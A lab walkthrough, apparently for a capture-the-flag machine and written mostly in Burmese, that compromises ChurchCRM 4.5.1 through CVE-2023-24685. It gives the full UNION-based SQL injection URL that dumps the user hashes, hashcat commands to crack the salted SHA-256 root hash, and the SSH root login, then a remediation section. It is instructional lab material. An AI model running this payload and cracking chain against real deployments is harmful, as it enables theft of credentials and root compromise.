

> **Responsible Use Note**  
> ဤ walkthrough သည် **authorized CTF/lab environment** အတွက်သာ ရည်ရွယ်ပါသည်။ ကိုယ်ပိုင်မဟုတ်သော system, public server, company system များတွင် ခွင့်ပြုချက်မရှိဘဲ မစမ်းသပ်ရပါ။

## 1. Machine Overview

| Item | Detail |
|---|---|
| Machine / Lab | CVE-2023-24685 Lab |
| Target Type | Standalone Web Machine |
| Main Service | ChurchCRM on HTTP |
| Main Vulnerability | Authenticated SQL Injection |
| Initial Access | ChurchCRM login using discovered/default credential |
| Privilege Escalation | SQL injection → hash extraction → salted SHA-256 cracking → SSH as root |
| Final Objective | Root shell |

ဒီ lab မှာ target machine ပေါ်မှာ **ChurchCRM** web application တစ်ခု run နေပါတယ်။ ပထမဆုံး Nmap နဲ့ open ports တွေကို စစ်ပြီး HTTP service ကို identify လုပ်ပါမယ်။ Web page ကိုကြည့်တဲ့အခါ ChurchCRM login page ကိုတွေ့ရပြီး application ထဲဝင်နိုင်တဲ့ credential ကို အသုံးပြုပါမယ်။ Login ဝင်ပြီးနောက် footer မှာ version `4.5.1` ကိုတွေ့ရပြီး CVE-2023-24685 authenticated SQL injection ကို exploit လုပ်ကာ user password hashes များကို extract လုပ်ပါမယ်။ နောက်ဆုံးမှာ root user hash ကို crack လုပ်ပြီး SSH မှတစ်ဆင့် root access ရယူပါမယ်။

Original document ရဲ့ summary မှာ `backup.zip` ထဲမှ credential ရယူနိုင်ကြောင်း ဖော်ပြထားသော်လည်း detailed walkthrough အပိုင်းမှာတော့ `admin:changeme` default credential ကိုသုံးထားပါတယ်။ ထို့ကြောင့် ဒီ Markdown walkthrough သည် detailed walkthrough ထဲက actual path ကိုအခြေခံပြီးရေးထားပါတယ်။

## 2. Lab Setup

အောက်က variables တွေကို ကိုယ့် lab environment အတိုင်း ပြောင်းသုံးပါ။

```shell
export TARGET="10.230.70.16"
export RHOST="http://$TARGET"
export USERNAME="admin"
export PASSWORD="changeme"
```

| Variable | Meaning |
|---|---|
| `TARGET` | Target machine IP address |
| `RHOST` | ChurchCRM web URL |
| `USERNAME` | ChurchCRM login username |
| `PASSWORD` | ChurchCRM login password |

Required tools:

- nmap
- browser
- curl
- hashcat
- rockyou.txt wordlist
- ssh

ဒီ lab မှာ exploit path သည် authenticated SQL injection ဖြစ်သောကြောင့် application ထဲ login ဝင်နိုင်ဖို့ credential တစ်စုံလိုပါတယ်။ Credential မရှိဘဲ exploit endpoint ကိုအသုံးပြုနိုင်မည်မဟုတ်ပါ။

## 3. Attack Chain Summary

### 3.1 Text-based Attack Chain

```text
Start: Authorized Lab
→ Nmap scan
→ Find SSH on port 22 and HTTP on port 80
→ Open ChurchCRM login page
→ Login using discovered/default credential
→ Identify ChurchCRM version 4.5.1
→ Map version to CVE-2023-24685
→ Exploit authenticated SQL injection
→ Extract admin and root password hashes
→ Identify hash algorithm as sha256($pass.$salt)
→ Prepare root hash with salt value 2
→ Crack root hash using hashcat mode 1410
→ Obtain root password
→ SSH login as root
→ Confirm root access
```

### 3.2 Mermaid Flowchart



### 3.3 Attack Chain Logic

ဒီ attack chain ရဲ့ အဓိက logic က web application enumeration မှစပါတယ်။ Port scan မှာ HTTP service ကိုတွေ့ပြီး ChurchCRM login page ကို identify လုပ်ပါမယ်။ Application ထဲဝင်ပြီးနောက် version information ကိုရှာကာ known CVE နဲ့ mapping လုပ်ပါမယ်။ ဒီ lab မှာ CVE-2023-24685 သည် authenticated SQL injection ဖြစ်သောကြောင့် login session လိုအပ်ပါတယ်။ SQL injection မှတစ်ဆင့် user hashes များရယူပြီး root user hash ကို crack လုပ်ကာ SSH မှတစ်ဆင့် root shell ရယူပါမယ်။

## 4. Enumeration Phase

### 4.1 Initial Port Scan

Target machine ရဲ့ exposed services တွေကိုသိရန် Nmap scan ပြုလုပ်ပါ။

```shell
nmap -sC -sV -sT $TARGET
```

| Option | Purpose |
|---|---|
| `-sC` | Nmap default scripts များကို run လုပ်ရန် |
| `-sV` | Service name နှင့် version ကို detect လုပ်ရန် |
| `-sT` | TCP connect scan ပြုလုပ်ရန် |

Port scan သည် attacker အနေနဲ့ target machine မှာ ဘယ် service တွေကို interact လုပ်နိုင်မလဲ သိဖို့အရေးကြီးပါတယ်။ Open port တစ်ခုချင်းစီသည် possible attack surface ဖြစ်နိုင်ပြီး service type, version, redirect, page title စတဲ့ clue များပေးနိုင်ပါတယ်။

### 4.2 Important Scan Result

```text
PORT   STATE  SERVICE  VERSION
22/tcp open   ssh      OpenSSH 8.4p1 Debian
80/tcp open   http     Apache httpd 2.4.56
```

Nmap output ထဲမှာ `22/tcp` နှင့် `80/tcp` ကိုတွေ့ရပါတယ်။ `22/tcp` သည် SSH ဖြစ်ပြီး valid credential မရှိသေးပါက initial access အတွက်အသုံးမဝင်သေးပါ။ `80/tcp` သည် HTTP service ဖြစ်ပြီး page title အနေနဲ့ `ChurchCRM: Login` ကိုပြနေပါတယ်။ ဒါကြောင့် web application enumeration ကို အရင်ဆုံးဆက်လုပ်သင့်ပါတယ်။

### 4.3 Service Prioritization

ဒီ lab မှာ HTTP service ကို ဦးစားပေးစစ်ပါမယ်။ အကြောင်းက web application login page, version disclosure, authenticated endpoint, SQL injection point စတဲ့ clue တွေကို HTTP service မှာပဲရနိုင်သောကြောင့်ဖြစ်ပါတယ်။ SSH သည် နောက်ပိုင်း password ရရှိပြီးမှ root login အတွက်အသုံးပြုပါမယ်။

## 5. Web / Service Enumeration

Browser မှာ target web application ကိုဖွင့်ပါ။

```text
http://10.230.70.16/
```

သို့မဟုတ် variable ဖြင့်:

```text
http://$TARGET/
```

Page ကိုကြည့်တဲ့အခါ `/session/begin` သို့ redirect ဖြစ်ပြီး **ChurchCRM login page** ကိုတွေ့ရပါတယ်။ ChurchCRM သည် web-based church management application ဖြစ်ပြီး authenticated user features များရှိပါတယ်။

ဒီ lab walkthrough ထဲမှာ `admin:changeme` credential ဖြင့် login ဝင်နိုင်ကြောင်းဖော်ပြထားပါတယ်။ Login ဝင်ပြီးနောက် footer မှာ application version ကိုတွေ့နိုင်ပါတယ်။

```text
ChurchCRM version: 4.5.1
```

Version information သည် vulnerability mapping အတွက်အရေးကြီးပါတယ်။ Product name နှင့် version ကိုသိသွားရင် CVE, exploit advisory, release note, public exploit တို့နဲ့ ဆက်စပ်စစ်ဆေးနိုင်ပါတယ်။

## 6. Vulnerability Root Cause

CVE-2023-24685 သည် **ChurchCRM 4.5.1** တွင်ရှိသော authenticated SQL injection vulnerability ဖြစ်ပါတယ်။ Authenticated SQL injection ဆိုတာ application ထဲ login ဝင်ထားသော user တစ်ဦးက vulnerable parameter ကို manipulate လုပ်ပြီး backend database query ကိုထိန်းချုပ်နိုင်သွားတဲ့ issue ဖြစ်ပါတယ်။

ဒီ lab မှာ vulnerable endpoint သည် `EventAttendance.php` ဖြစ်ပြီး `Event` parameter ထဲမှာ SQL payload ထည့်သွင်းနိုင်ပါတယ်။

```text
/EventAttendance.php?Action=List&Event=<SQL_PAYLOAD>&Type=Sunday%20School
```

SQL injection ဖြစ်ရတဲ့အကြောင်းရင်းက application သည် request parameter ထဲက user input ကို SQL query ထဲမှာ မလုံခြုံစွာ အသုံးပြုထားခြင်းကြောင့်ဖြစ်ပါတယ်။ Input validation, parameterized query, prepared statement မသုံးထားလျှင် attacker က `UNION SELECT` စတဲ့ SQL syntax ကိုထည့်ပြီး database ထဲက data များကို query result ထဲပြန်ထုတ်နိုင်ပါတယ်။

ရိုးရိုး analogy နဲ့ဆိုရင် application က event ID တစ်ခုတည်းကိုပဲ မျှော်လင့်ထားပေမယ့် attacker က event ID နေရာမှာ database ကိုမေးခိုင်းမယ့် instruction တစ်ခုပေးလိုက်တာဖြစ်ပါတယ်။ Application က input ကိုသေချာမစစ်ဘဲ query ထဲထည့်လိုက်သောကြောင့် database ထဲက username/password hash များကို ဖော်ထုတ်နိုင်သွားပါတယ်။

## 7. Safe Vulnerability Confirmation

### 7.1 Confirm Login and Version

ပထမဆုံး credential ဖြင့် login ဝင်နိုင်ကြောင်းစစ်ပါ။

```text
Username: admin
Password: changeme
```

Login ဝင်ပြီးနောက် footer သို့မဟုတ် about/version area မှာ version ကိုစစ်ပါ။

```text
ChurchCRM 4.5.1
```

ဒီအဆင့်မှာ exploit မလုပ်သေးပါ။ Product နှင့် version ကို confirm လုပ်ခြင်းဖြစ်ပြီး CVE-2023-24685 နဲ့ mapping လုပ်ဖို့ evidence စုဆောင်းတာဖြစ်ပါတယ်။

### 7.2 Confirm SQL Injection Behavior

Lab walkthrough ထဲမှာ union-based payload ကိုအသုံးပြုပြီး user hashes များကို response ထဲပြန်ရလာကြောင်း ဖော်ပြထားပါတယ်။ URL ကို browser ထဲမှာ authenticated session ရှိနေစဉ် access လုပ်ပါ။

```text
http://10.230.70.16/EventAttendance.php?Action=List&Event=2+UNION+ALL+SELECT+1,NULL,CONCAT(usr_Username,%27:%27,usr_Password),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+from+user_usr--+-&Type=Sunday%20School
```

Expected output:

```text
Admin:4bdf3fba58c956fc3991a1fde84929223f968e2853de596e49ae80**********
root:33b8fc76a24681b67a9431b632548d069336202bed5828fe431711a**********
```

Response delay ဖြစ်နိုင်ပါတယ်။ Walkthrough ထဲမှာ response ပြန်လာရန် 30 seconds ခန့်ကြာနိုင်ကြောင်းဖော်ပြထားပါတယ်။ Delay ဖြစ်ခြင်းသည် blind/time-based behavior ရှိနိုင်ကြောင်းပြနိုင်ပြီး hash output ပြန်ရလာပါက SQL injection exploit အောင်မြင်ကြောင်းအတည်ပြုနိုင်ပါတယ်။

## 8. Exploitation

### 8.1 Extract User Hashes

Authenticated session ဖြင့် vulnerable endpoint ကိုအသုံးပြုပြီး `user_usr` table ထဲက username နှင့် password hashes များကို extract လုပ်ပါ။

```text
http://10.230.70.16/EventAttendance.php?Action=List&Event=2+UNION+ALL+SELECT+1,NULL,CONCAT(usr_Username,%27:%27,usr_Password),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+from+user_usr--+-&Type=Sunday%20School
```

Extracted values:

```text
Admin:4bdf3fba58c956fc3991a1fde84929223f968e2853de596e49ae80**********
root:33b8fc76a24681b67a9431b632548d069336202bed5828fe431711a**********
```

ဒီအဆင့်မှာ plaintext password မရသေးပါ။ Password hash တွေကိုသာရရှိထားတာဖြစ်ပါတယ်။ Hash ကို crack လုပ်ရန် hash algorithm နှင့် salt format ကိုသိဖို့လိုပါတယ်။

### 8.2 Identify Hash Format

Source code review ထဲမှာ password hashing logic ကိုအောက်ပါအတိုင်းတွေ့ရပါတယ်။

```php
$sPasswordHashSha256 = hash('sha256', $rawPassword . $iPersonID);
```

ဒီ logic အရ password သည် `sha256($password.$salt)` ပုံစံဖြစ်ပါတယ်။ ဒီ lab မှာ `root` user ရဲ့ `iPersonID` သည် `2` ဖြစ်သောကြောင့် salt value သည် `2` ဖြစ်ပါတယ်။

Hashcat အတွက် hash file ကိုအောက်ပါ format ဖြင့်ပြင်ပါ။

```text
33b8fc76a24681b67a9431b632548d069336202bed5828fe431711a**********:2
```

### 8.3 Crack Root Hash with Hashcat

Hash value ကို file ထဲသို့သိမ်းပါ။

```shell
echo "33b8fc76a24681b67a9431b632548d069336202bed5828fe431711a**********:2" > hash
```

Hashcat mode `1410` သည် `sha256($pass.$salt)` format အတွက်အသုံးပြုပါတယ်။

```shell
hashcat -a 0 -m 1410 hash /usr/share/wordlists/rockyou.txt
```

Expected cracked result:

```text
33b8fc76a24681b67a9431b632548d069336202bed5828fe431711a**********:2:artist**********
```

Cracked root credential:

```text
Username: root
Password: artist**********
```

ဒီအဆင့်မှာ database hash cracking မှတစ်ဆင့် root password ကိုရရှိပါပြီ။ နောက်တစ်ဆင့်မှာ SSH ကိုအသုံးပြုပြီး root login ဝင်ပါမယ်။

## 9. Shell / Access Confirmation

SSH မှတစ်ဆင့် root user အဖြစ် login ဝင်ပါ။

```shell
ssh root@$TARGET
```

Password prompt ပေါ်လာလျှင် cracked password ကိုထည့်ပါ။

```text
artist**********
```

Login ဝင်ပြီးနောက် current user ကိုစစ်ပါ။

```shell
whoami
```

Expected output:

```text
root
```

နောက်ထပ် context ကိုစစ်ရန်:

```shell
id
hostname
pwd
```

Expected user context သည် root ဖြစ်သင့်ပါတယ်။ ဒီ lab မှာ SQL injection ကနေ root hash ရယူပြီး hash cracking မှတဆင့် root password ရသွားသောကြောင့် SSH root login ဖြင့် final access ရရှိတာဖြစ်ပါတယ်။

## 10. Shell Stabilization

ဒီ lab မှာ SSH မှတစ်ဆင့် root shell ရထားသောကြောင့် reverse shell stabilization မလိုအပ်ပါ။ SSH session သည် already stable interactive shell ဖြစ်ပါတယ်။

လိုအပ်ပါက terminal size ကိုချိန်ရန်:

```shell
stty rows 40 columns 120
```

SSH shell သည် reverse shell ထက်ပို stable ဖြစ်ပြီး tab completion, command history, interactive tools များကို ပုံမှန်အသုံးပြုနိုင်ပါတယ်။

## 11. Privilege Escalation Enumeration

ဒီ walkthrough မှာ privilege escalation သည် local sudo misconfiguration ကို exploit လုပ်ခြင်းမဟုတ်ပါ။ Database ထဲက root hash ကိုရယူပြီး password crack လုပ်ကာ SSH root login ဝင်ခြင်းဖြစ်ပါတယ်။ ထို့ကြောင့် privilege escalation path သည် **credential-based privilege escalation** ဖြစ်ပါတယ်။

ရရှိထားသော root shell ထဲမှာ confirmation အတွက် အောက်ပါ command များကို run နိုင်ပါတယ်။

```shell
id
whoami
hostname
```

တကယ်လို့ root login မအောင်မြင်ပါက အောက်ပါအချက်များကို ပြန်စစ်ပါ။

- Hashcat mode မှန်လား
- Salt value `2` မှန်လား
- Password ကို copy/paste မှန်လား
- SSH service က root login ကိုခွင့်ပြုထားလား
- Target IP မှန်လား

## 12. Privilege Escalation

### 12.1 Exact Weakness

ဒီ lab ရဲ့ escalation weakness သည် SQL injection မှတစ်ဆင့် sensitive credential material ကို extract လုပ်နိုင်ခြင်းဖြစ်ပါတယ်။ Database ထဲမှ root user hash ကိုရရှိပြီး hash algorithm နှင့် salt format ကိုသိသောကြောင့် offline cracking လုပ်နိုင်သွားပါတယ်။

### 12.2 Why It Allows Root Access

Password hash ကို crack လုပ်ပြီး plaintext root password ရရှိသွားပါက SSH service မှတစ်ဆင့် root user အဖြစ် login ဝင်နိုင်ပါတယ်။ ဒါဟာ web application vulnerability တစ်ခုက OS-level root access အထိ chain ဖြစ်သွားတဲ့ scenario ဖြစ်ပါတယ်။

### 12.3 Escalation Command

```shell
ssh root@$TARGET
```

Confirm root access:

```shell
whoami
id
```

Expected output:

```text
root
uid=0(root) gid=0(root) groups=0(root)
```

## 13. Proof / Flag

Root shell ရပြီးနောက် proof သို့မဟုတ် flag file ကိုရှာပါ။

```shell
find / -iname '*proof*' 2>/dev/null
```

သို့မဟုတ်:

```shell
find / -iname '*flag*' 2>/dev/null
```

တွေ့ရှိသော path ကိုဖတ်ပါ။

```shell
cat <PROOF_OR_FLAG_PATH>
```

ဒီအဆင့်မှာ final objective ပြီးမြောက်ပါပြီ။ CTF/lab environment များတွင် proof file သည် machine compromise အောင်မြင်ကြောင်းအတည်ပြုရန် အသုံးပြုပါတယ်။

## 14. Troubleshooting

| Problem | Possible Cause | Check / Fix |
|---|---|---|
| ChurchCRM page does not load | Wrong target IP or service down | Check `nmap` result and browse to `http://$TARGET` |
| Login fails | Credential is wrong or changed | Recheck discovered/default credentials |
| Version not visible | Footer hidden or different UI | Check page source or about/footer area |
| SQL injection output delayed | Blind/time-based behavior | Wait; response may take around 30 seconds |
| No hashes returned | Wrong session, URL encoding, or version | Confirm authenticated session and exact endpoint |
| Hashcat does not crack | Wrong mode or salt format | Use mode `1410` and `hash:salt` format |
| SSH login fails | Wrong password or root SSH disabled | Recheck cracked password and SSH config |
| `root` not returned by `whoami` | Logged in as wrong user | Confirm SSH username is `root` |

Troubleshooting လုပ်ရာတွင် အရေးကြီးတာက web login session, exact URL, URL encoding, hash format, salt value, and SSH login user တို့ကို တစ်ခုချင်းစစ်ခြင်းဖြစ်ပါတယ်။

## 15. Root Cause and Remediation

| Issue | Risk | Recommended Remediation |
|---|---|---|
| Authenticated SQL injection | Database data extraction | Use prepared statements and parameterized queries |
| Sensitive password hashes exposed | Offline password cracking | Protect database access and reduce exposed data |
| Weak/crackable root password | Root account compromise | Use strong unique passwords and rotate exposed credentials |
| Root SSH login enabled | Direct root compromise | Disable direct root SSH login |
| Version disclosure | Easier CVE mapping | Limit unnecessary version exposure |
| Insufficient least privilege | Web issue leads to system compromise | Separate application users from system privileged accounts |
| Weak password storage design | Easier cracking if hashes leak | Use modern password hashing such as bcrypt/Argon2id with strong salts |

Remediation အတွက် vulnerable ChurchCRM version ကို vendor-fixed version သို့ upgrade လုပ်ရပါမယ်။ SQL query များတွင် user input ကို string concatenation ဖြင့် မထည့်သင့်ဘဲ prepared statements နှင့် parameterized queries ကိုအသုံးပြုသင့်ပါတယ်။

Password storage အတွက် simple SHA-256 မသုံးသင့်ပါ။ Password hashing အတွက် bcrypt, Argon2id, PBKDF2 စသော password hashing algorithm များကို သင့်လျော်သော cost factor နှင့် unique salt ဖြင့်အသုံးပြုသင့်ပါတယ်။

Root SSH login ကို production environment တွင် disable လုပ်သင့်ပါတယ်။ Admin access လိုအပ်ပါက named user account ဖြင့် login ဝင်ပြီး sudo policy ဖြင့် controlled privilege escalation လုပ်သင့်ပါတယ်။

## 16. Key Learning Points

- Port scan သည် exposed service များကိုသိရန် အခြေခံအဆင့်ဖြစ်ပါတယ်။
- Web application page title နှင့် footer information သည် product/version identification အတွက်အသုံးဝင်ပါတယ်။
- Authenticated SQL injection သည် login session လိုအပ်သော်လည်း impact မြင့်နိုင်ပါတယ်။
- SQL injection မှတစ်ဆင့် database ထဲက password hash များကို extract လုပ်နိုင်ပါတယ်။
- Hash algorithm နှင့် salt format ကိုသိခြင်းသည် offline cracking အတွက်အရေးကြီးပါတယ်။
- `sha256($pass.$salt)` format အတွက် Hashcat mode `1410` ကိုအသုံးပြုနိုင်ပါတယ်။
- Weak root password နှင့် root SSH login enabled ဖြစ်ခြင်းသည် full system compromise ဖြစ်စေနိုင်ပါတယ်။
- Web vulnerability တစ်ခုသည် credential exposure မှတစ်ဆင့် OS-level root access အထိ chain ဖြစ်နိုင်ပါတယ်။

## 17. Quick Command Reference

```shell
# Variables
export TARGET="10.230.70.16"
export RHOST="http://$TARGET"
export USERNAME="admin"
export PASSWORD="changeme"

# Enumeration
nmap -sC -sV -sT $TARGET

# Login in browser
# http://10.230.70.16/
# admin:changeme

# Authenticated SQL injection URL
# http://10.230.70.16/EventAttendance.php?Action=List&Event=2+UNION+ALL+SELECT+1,NULL,CONCAT(usr_Username,%27:%27,usr_Password),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+from+user_usr--+-&Type=Sunday%20School

# Prepare root hash for hashcat
echo "33b8fc76a24681b67a9431b632548d069336202bed5828fe431711a**********:2" > hash

# Crack hash
hashcat -a 0 -m 1410 hash /usr/share/wordlists/rockyou.txt

# SSH as root
ssh root@$TARGET

# Confirm root
whoami
id

# Find proof
find / -iname '*proof*' 2>/dev/null
cat <PROOF_OR_FLAG_PATH>
```

## 18. Final Summary

ဒီ lab ရဲ့ compromise path သည် ChurchCRM web application enumeration မှစပြီး version `4.5.1` ကိုတွေ့ခြင်း၊ authenticated SQL injection ကို exploit လုပ်ခြင်း၊ root password hash ကို extract လုပ်ခြင်း၊ hash algorithm နှင့် salt ကိုသိပြီး Hashcat ဖြင့် crack လုပ်ခြင်း၊ နောက်ဆုံး SSH မှတစ်ဆင့် root login ဝင်ခြင်းဖြစ်ပါတယ်။ အဓိက defensive lesson က web application SQL injection တစ်ခုသည် credential exposure ဖြစ်စေနိုင်ပြီး weak password နှင့် root SSH login enabled ဖြစ်ပါက full system compromise အထိဖြစ်နိုင်ခြင်းဖြစ်ပါတယ်။

```text
ChurchCRM on port 80
→ Version 4.5.1
→ CVE-2023-24685 Authenticated SQL Injection
→ Extract root hash
→ Crack sha256($pass.$salt)
→ SSH as root
→ Root access
```
